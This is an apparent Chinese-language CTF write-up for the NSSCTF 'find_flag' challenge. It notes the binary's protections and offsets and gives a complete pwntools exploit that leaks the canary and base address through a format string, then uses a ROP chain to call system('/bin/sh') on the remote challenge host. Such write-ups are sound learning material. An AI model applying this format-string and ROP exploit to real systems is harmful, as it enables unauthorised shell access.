 [[深育杯 2021]find_flag | NSSCTF](https://www.nssctf.cn/problem/774)
![[Pasted image 20240901103105.png]]
开启Canary与PIE
![[Pasted image 20240901103623.png]]
重点函数为此，中间一坨在别的地方看到为`strcat(v3, '!\n')`,阻止了直接泄露，需计算偏移
![[Pasted image 20240901104310.png]]
![[Pasted image 20240901104331.png]]
计算出偏移为17
同时，开启了栈随机化(PIE)，此处可同时泄露出栈基地址
![[Pasted image 20240901104508.png]]
对应的偏移为0x146F
exp:
```python
from pwn import *
import pwnlib.gdb

context(arch='amd64', os='linux', log_level='debug')

local = True

elf = ELF('./find_flag')
if local:
    p = process('./find_flag')
    pwnlib.gdb.attach(p, 'b* $rebase(0x13F9)')
else:
    p = remote("node4.anna.nssctf.cn", 28277)

offset = 0x68

# p.recvuntil('name?')
p.sendlineafter(b"name?", b"%17$p---%19$p")
p.recvuntil('you, ')
canary = int(p.recv(18), 16)
print('canary:', hex(canary))

p.recvuntil('---')
base_addr = int(p.recv(14), 16) - 0x146F

binsh = base_addr + 0x2004
system = base_addr + elf.symbols['system']

ret = base_addr + 0x101a
rdi = base_addr + 0x14e3

payload = b'a' *(0x40 - 8) + p64(canary) + b'a' * 8 + p64(ret) + p64(rdi) + p64(binsh) + p64(system)

p.sendlineafter("else? ", payload)

p.interactive()
```
